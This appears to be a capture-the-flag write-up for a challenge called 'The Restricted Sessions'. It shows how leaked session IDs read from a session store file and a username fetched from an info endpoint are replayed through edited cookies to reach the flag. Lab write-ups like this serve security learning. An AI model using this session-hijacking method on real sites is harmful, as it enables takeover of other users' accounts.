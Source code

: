 # The Restricted Sessions

<img width="1193" height="291" alt="image" src="https://github.com/user-attachments/assets/d6db2162-20d1-48e8-9f2f-9edc17084336" />

## found in sourse code


```javascript
if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
```

> ## edit cookie

```
PHPSESSID : [^;]+)/
```

<img width="1918" height="300" alt="image" src="https://github.com/user-attachments/assets/fdfa52b5-a47b-440e-ae74-70d2aa68418f" />

```
/data/session_store.txt
```

<img width="767" height="192" alt="image" src="https://github.com/user-attachments/assets/cbc10dd5-2b75-4f36-97e3-77e733ee78a0" />

```
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```

> ## edit cookie again

```
PHPSESSID : iuqwhe23eh23kej2hd2u3h2k23
```


<img width="1614" height="366" alt="image" src="https://github.com/user-attachments/assets/20fdb1cc-32b0-4da5-933f-6d4997c4d1f8" />

```
UserInfo Cookie don't have the username , Validation failed 
```

> ## in sourse code 

```javascript
 $.post('getcurrentuserinfo.php',{
```

```
/getcurrentuserinfo.php
```

<img width="1184" height="444" alt="image" src="https://github.com/user-attachments/assets/6426035e-6f85-473b-b3c3-6a197f2dd813" />

> ## we get the name **`john`**

> ## edit cookie again

```
PHPSESSID : iuqwhe23eh23kej2hd2u3h2k23
UserInfo : john
```

<img width="1504" height="353" alt="image" src="https://github.com/user-attachments/assets/d8b42311-31cb-423f-b9c4-d020a87d846d" />

```
sessionareawesomebutifitsecure
```




